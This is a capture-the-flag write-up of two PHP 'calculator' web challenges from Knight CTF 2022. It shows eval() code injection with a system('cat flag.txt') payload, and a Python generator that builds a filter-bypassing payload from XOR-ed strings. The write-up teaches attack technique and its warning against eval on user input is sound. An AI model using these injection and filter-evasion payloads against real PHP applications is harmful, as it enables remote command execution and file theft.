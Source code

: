 ```yaml
---
title: Knight CTF 2022 – Most Secure Calculator
date: '2022-01-21'
draft: false
authors: ['blueset']
tags: ['Web', 'Knight CTF 2022', 'PHP', 'eval']
summary: 'Do not ever eval() user input, even you thought you have sanitized.'
---
```


## Most Secure Calculator 1 (50 points)

> Challenge Link: http://198.211.115.81:9003/  
> Flag Format: `KCTF{something_here}`  
> Note: Burte Force/Fuzzing not required and not allowed.  
> Author: NomanProdhan

Webpage has a form with a text box and a submit button. The form sends a POST request to `/`.

A comment is found in the HTML source of the webpage.

```html
<!-- 
    Hi Selina, 
    I learned about eval today and tomorrow I will learn about regex. I have build a calculator for your child.
    I have hidden some interesting things in flag.txt and I know you can read that file.
-->
```

* The webpage uses `eval` to “do calculations”.
* Flag is stored in `flag.txt`.

Submit `system("cat flag.txt");` to get the flag.

## Most Secure Calculator 2 (250 points)

> Challenge Link: http://198.211.115.81:9004/  
> Flag Format: `KCTF{something_here}`  
> Note: Burte Force/Fuzzing not required and not allowed.  
> Author: NomanProdhan  


Webpage has a form with a text box and a submit button. The form sends a POST request to `/`.

A comment is found in the HTML source of the webpage.

```
<!-- 
    Hi Selina, 
    I learned about regex today. I have upgraded the previous calculator. Now its the most secure calculator ever.
    The calculator accepts only numbers and symbols. 
    I have hidden some interesting things in flag.txt and I know you can create an interesting equation to read that file.
-->
```

Again,

* The webpage uses `eval` to “do calculations”.
* Filters are put in place to only accept “numbers and symbols”.
* Flag is stored in `flag.txt`.

Through trial and error, the following characters are found to be accepted:

```
!"#%'()*+,-./:;?@[\]^_`{|}~0123456789
```

Specifically, `$`, `<` and `>` are not accepted.

**Vulnerabilities:**

1. PHP allows to use a string literal as a function name.
2. PHP allows bit-wise XOR operation of strings.

Making use of feature 1, we can rewrite `system("cat flag.txt");` as `("system")("cat flag.txt");`.

Making use of feature 2, we can construct the words `system`, `cat`, `flag`, and `txt` using bit-wise XOR of 2 strings from the allowed character set.

For example, to construct the word `'sekai'`, we can have `'(%+!)' ^ '[@@@@'`.

```
(%+!)   00101000 00100101 00101011 00100001 00101001
     xor
[@@@@   01011011 01000000 01000000 01000000 01000000
      =
sekai   01110011 01100101 01101011 01100001 01101001
```

A Python script was written to find the XOR pairs and build the payload.

```py
chars = "!#%()*+,-./:;?@[]^_`{|}~&0123456789"
ascii_chars = "".join(chr(i) for i in range(32, 127))
diff = (set(ascii_chars) - set(chars))
mapping = {}

for i in chars:
    for j in chars:
        k = chr(ord(i) ^ ord(j))
        if k in diff and k not in mapping:
            mapping[k] = (i, j)

def transform(s):
    a = [mapping[c][0] for c in s]
    b = [mapping[c][1] for c in s]
    return "("+repr("".join(a)) + "^" + repr("".join(b))+")"

_system = transform("system")
_cat = transform("cat")
_flag = transform("flag")
_txt = transform("txt")

print(f"{_system}({_cat}.' '.{_flag}.'.'.{_txt});")
```

Submit this payload to get the flag.
